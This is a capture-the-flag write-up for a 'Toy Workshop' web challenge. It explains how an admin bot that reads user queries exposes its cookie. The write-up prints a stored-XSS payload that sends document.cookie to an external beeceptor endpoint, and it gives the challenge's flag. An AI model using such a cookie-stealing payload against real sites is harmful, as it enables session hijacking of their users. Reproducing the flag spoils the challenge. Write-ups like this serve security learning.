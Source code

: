# Toy Workshop (Day 1)

For this challenge, we are provided with source code for a web application as well as a docker file to test the web application locally.

I proceed to build the docker image and navigating to the website, where I was greeted with the following page:

![webpage](https://user-images.githubusercontent.com/71312079/151320134-1d568e80-3ef7-4a3d-9836-913ae953398e.png)

Clicking on one of the elves produces a prompt that **"The manager is busy right now"** and a textbox for input. Immediately I think of the possibility of XSS and send the following input:

![testxss](https://user-images.githubusercontent.com/71312079/151320121-3120681a-b100-4e97-a271-f5fed899fba3.png)

I see that my message was successfully delivered then refreshed the page. However I did not receive the alert, leading me to think that perhaps XSS isn't the way to go...

Next, I viewed the source code, zooming in to the *routes.js* file which shows the routes of the app. I see that sending the message in the text box will invoke a function *readQueries* performed by a bot:

![submit](https://user-images.githubusercontent.com/71312079/151320106-7ff80377-1d5e-40a9-a809-ab9a82178d0a.png)

I then navigate to the *readQueries* function located in */challenge/bot.js*, where I see the admin visiting */queries* to read the queries. Interestingly, I see that the flag is actually the cookie name, thus it appears that the cookie needs to be stolen in order to obtain the flag.

![botjs_readqueries](https://user-images.githubusercontent.com/71312079/151321533-a30fc3c9-8418-48c7-acba-5f7439ac2aba.png)

Navigating back to *routes.js* to see the GET request for */queries*, I see that only the localhost on 127.0.0.1 can access the cookie,. 

![get](https://user-images.githubusercontent.com/71312079/151320096-43c4d547-3f1d-47b7-a1fa-84c9be1f451b.png)

In order to obtain the cookie, we need to perform the following:
* Set up a publicly accessible website 
  * I created an endpoint called **mine562** on **beeceptor**
* Craft a script to send the cookie to my endpoint
 ```html
<script> document.write('<img src="https://mine562.free.beeceptor.com/collect.gif?cookie=' + document.cookie + '" />') </script>
```
* Paste the script in the text box and submit it

After performing the steps above, I waited around a minute for the admin to view the queries. Voila! The cookie was sent to my endpoint and I obtained the flag

Flag: `HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`